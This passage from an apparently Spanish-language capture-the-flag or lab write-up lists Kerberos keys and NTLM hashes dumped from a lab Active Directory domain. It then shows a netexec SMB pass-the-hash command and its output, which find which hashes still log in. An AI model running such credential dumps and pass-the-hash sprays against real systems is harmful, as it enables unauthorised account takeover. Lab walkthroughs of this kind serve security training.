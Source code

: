 ```bash
R.Robinson:aes256-cts-hmac-sha1-96:90ad0b9283a3661176121b6bf2424f7e2894079edcc13121fa0292ec5d3ddb5b
R.Robinson:aes128-cts-hmac-sha1-96:2210ad6b5ae14ce898cebd7f004d0bef
R.Robinson:des-cbc-md5:7051d568dfd0852f
D.Durant:aes256-cts-hmac-sha1-96:a105c3d5cc97fdc0551ea49fdadc281b733b3033300f4b518f965d9e9857f27a
D.Durant:aes128-cts-hmac-sha1-96:8a2b701764d6fdab7ca599cb455baea3
D.Durant:des-cbc-md5:376119bfcea815f8
G.Goldberg:aes256-cts-hmac-sha1-96:0d6ac3733668c6c0a2b32a3d10561b2fe790dab2c9085a12cf74c7be5aad9a91
G.Goldberg:aes128-cts-hmac-sha1-96:00f4d3e907818ce4ebe3e790d3e59bf7
G.Goldberg:des-cbc-md5:3e20fd1a25687673
[*] Cleaning up...
```
Ahora voy a probar con `netexec` qué hashes son válidos y cuáles no.

Pegamos los `hashes` a un archivo y los `usuarios` a otro evitando usuarios y hashes repetidos

Comprobamos si son válidos con `netexec`: 

```bash
netexec smb 192.168.182.175 -u $(cat users) -H $(cat hashes) --no-bruteforce --continue-on-success
Using virtualenv: /usr/share/netexec/virtualenvs/netexec-PWU1S8Zj-py3.13
SMB         192.168.182.175 445    RESOURCEDC       [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESOURCEDC) (domain:resourced.local) (signing:True) (SMBv1:False)
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\Administrator:12579b1666d4ac10f0f59f300776495f STATUS_LOGON_FAILURE 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\Guest:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\RESOURCEDC$:9ddb6f4d9d01fedeb4bccfb09df1b39d STATUS_LOGON_FAILURE 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\krbtgt:3004b16f88664fbebfcb9ed272b0565b STATUS_LOGON_FAILURE 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\M.Mason:3105e0f6af52aba8e11d19f27e487e45 STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\K.Keen:204410cc5a7147cd52a04ddae6754b0c STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [+] resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\J.Johnson:3e028552b946cc4f282b72879f63b726 STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [+] resourced.local\V.Ventz:913c144caea1c0a936fd1ccb46929d3c 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\S.Swanson:bd7c11a9021d2708eda561984f3c8939 STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\P.Parker:980910b8fc2e4fe9d482123301dd19fe STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\R.Robinson:fea5a148c14cf51590456b2102b29fac STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\D.Durant:08aca8ed17a9eec9fac4acdcb4652c35 STATUS_PASSWORD_EXPIRED 
SMB         192.168.182.175 445    RESOURCEDC       [-] resourced.local\G.Goldberg:62e16d17c3015c47b4d513e65ca757a2 STATUS_PASSWORD_EXPIRED 
```

Los que tienen un signo `+` son los válidos, por tanto, tenemos un hash válido para el usuario `L.LivingStone`.
